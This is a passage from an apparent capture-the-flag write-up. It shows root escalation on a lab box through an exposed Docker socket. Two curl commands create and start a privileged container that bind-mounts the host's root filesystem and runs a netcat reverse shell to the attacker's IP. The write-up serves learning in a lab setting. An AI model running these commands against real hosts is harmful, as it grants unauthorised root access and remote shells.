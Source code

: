 
Create a new container with `sandbox` image with a reverse shell command and with a bind to mount /root directory of host to /mnt in the container. We can do that by the following command:

```bash
curl -X POST --unix-socket /var/run/docker.sock -H "Content-Type: application/json" http://localhost/containers/create?name=hack_feline -d '{"Image":"sandbox", "Cmd":["/usr/bin/nc", "10.10.14.44", "9051", "-e", "/bin/sh"], "Binds": [ "/:/mnt" ], "Privileged": true}'
```

We named the container `hack_feline`, you can name it whatever you want.

Now we only have to start the container and we will get a reverse shell of the container just after that because `/usr/bin/nc 10.10.14.44 9051 -e /bin/sh` will be executed as soon as we start the container.


```bash
curl -s -X POST --unix-socket /var/run/docker.sock http://localhost/containers/hack_feline/start
```

We should receive a connection in our netcat listener, just go to /mnt/root/ and read the root.txt, we mount the / of root to /mnt of the container so that is why we can explore the whole filesystem of inside /mnt of `hack_feline`.

I really enjoyed this box very much, it had lots of new things for me to learn! 
<br>Hit me up on my socials to give feedback, suggestions for my upcoming work. [Contact Me](/contact)

[Back to Top](#top)
